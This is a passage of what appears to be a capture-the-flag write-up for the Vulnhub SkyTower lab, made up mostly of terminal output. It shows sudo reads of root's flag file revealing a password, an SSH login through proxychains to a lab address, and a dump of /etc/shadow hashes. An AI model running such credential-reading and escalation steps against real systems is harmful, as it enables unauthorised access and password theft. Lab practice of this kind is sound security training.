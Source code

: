 ```
john:$6$a39powbs$ditVKZ1waa6vJEh3BG1d5jLv/uADKcl.r1kcA.XKyhNfJoiDhSdwmSZel3V5cZ/S6ec3wd8rdNA2dOznTXhl0/:16198:0:99999:7:::
sara:$6$2PvpHNG0$hbaMRd5fZhWMDHyyhGHINSy.qBHnvP4QW1k9RSwv.pQM6SoZey53C7S7aF6263ae6qx5TwVA6sahf5tebUqvY1:16198:0:99999:7:::
william:$6$c3VykdoT$qRUKl1e77skTm0sLHavRSp8mUJfMIPrJBovrXC8o9GY8/P7gpasSbvtqA0rn9.HyxjKhSVji8/CzHNFLit3GU1:16241:0:99999:7:::


```
## let mee if root has any thing

```

bash-4.2$ sudo ls /accounts/../roots
ls: cannot access /accounts/../roots: No such file or directory
bash-4.2$ sudo ls /accounts/../root
flag.txt
bash-4.2$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
bash-4.2$ 


```
## wow i have root password now i can go more
```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa root@192.168.56.101 -t "bash --noprofile --norc"

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
root@192.168.56.101's password: 
bash-4.2# whoami
root
bash-4.2# 
bash-4.2# cat /etc/shadow
root:$6$rKYhh57q$AVs1wNVSbE5K.IU1Wp9l7Ndg3iPlB7yczctQD6OL9fBZir2ppGDA6v0Vx17xjg.b3zu6mkAVpEN2BuG3wvS2l/:16241:0:99999:7:::
daemon:*:16241:0:99999:7:::
bin:*:16241:0:99999:7:::
sys:*:16241:0:99999:7:::
sync:*:16241:0:99999:7:::
games:*:16241:0:99999:7:::
man:*:16241:0:99999:7:::
lp:*:16241:0:99999:7:::
mail:*:16241:0:99999:7:::
news:*:16241:0:99999:7:::
uucp:*:16241:0:99999:7:::
proxy:*:16241:0:99999:7:::
www-data:*:16241:0:99999:7:::
backup:*:16241:0:99999:7:::
list:*:16241:0:99999:7:::
irc:*:16241:0:99999:7:::
gnats:*:16241:0:99999:7:::
nobody:*:16241:0:99999:7:::
libuuid:!:16241:0:99999:7:::
sshd:*:16241:0:99999:7:::
mysql:!:16241:0:99999:7:::
john:$6$a39powbs$ditVKZ1waa6vJEh3BG1d5jLv/uADKcl.r1kcA.XKyhNfJoiDhSdwmSZel3V5cZ/S6ec3wd8rdNA2dOznTXhl0/:16198:0:99999:7:::
```